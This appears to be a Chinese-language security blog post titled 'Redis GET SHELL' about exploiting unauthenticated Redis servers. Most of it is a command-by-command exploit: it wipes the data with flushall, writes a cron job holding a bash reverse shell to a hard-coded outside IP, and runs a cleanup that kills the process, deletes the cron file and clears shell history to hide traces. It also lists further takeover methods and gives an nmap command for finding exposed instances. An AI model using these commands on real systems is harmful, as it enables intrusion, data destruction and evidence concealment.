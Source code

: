 ```yaml
---
description: Redis常见的安全问题及利用方式，可以写任意文件并拿到服务器SHELL权限，如何自查Redis匿名访问问题。
---
```

# Redis GET SHELL

Feei <feei#feei.cn> 2014

## 背景
默认Redis安装完成后只能本机访问且没有密码的，一般场景下Redis是需要被其它服务器访问的，所以就会将`/etc/redis.conf`中的`bind-ip`改为`0.0.0.0`，由此导致外网可以匿名访问Redis（不需要密码）。

外网可以访问导致的问题是Redis数据外泄，除此之外若使用root账户启动的Redis则会造成GET SHELL。

## 利用方式
通过Redis的`config`命令，可以写入任意文件，权限足够的情况下可写入定时任务反弹得到SHELL。

**连上一台Redis**
```bash
redis-cli -h your_redis_server
```

**保持写入的干净，清除原有数据（如果是其它人机器，不建议这么做）**
```bash
flushall
```

**设置key(0)为bash反弹shell的脚本，每分钟执行一次，在自己服务器上监听7890端口(nc -vvl 7890)**
```bash
set 0 "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/103.21.140.84/7890 0>&1\n\n"
```

**设置保存的位置**
```bash
config set dir /var/spool/cron/ 
```

**设置保存的文件名**
```bash
config set dbfilename root
```

**保存**
```bash
save
```

至此就会在目标Redis服务器产生一个Cron文件`/var/spool/cron/root`，如果目标服务器Crond服务没有关闭的话，该文件就会每分钟执行一次导致SHELL，此时只需要在自己的服务器上监听7890端口，即可控制目标服务器。

退出目标服务器时，为了防止Cron再次连接，可以用如下命令退出

```bash
ps aux | grep 7890 | awk '{ print $2 }'|xargs kill;rm -f /var/spool/cron/root;history -c && exit
```

## 多种利用姿势

除了可以直接写定时任务拿到SHELL，还可以有多种姿势。

- 写cron反弹一个shell
- 写`~/.ssh/authorized_keys`，使用密钥直接登录
- 找到web目录的绝对路径，直接写web shell
- 写初始化脚本`/etc/profile.d/`
- 主从模式利用

## 企业内部Redis匿名挖掘
通过nmap扫描内网网段的redis匿名访问服务。（当然可以扫描外网）
```bash
nmap -p6379 10.11.0/16 --script redis-info
```
就是这个洞让我wooyun排名10天前进10页，当然是加到我的扫描器内（Vulture），自动化利用，每天就看下报告即可。
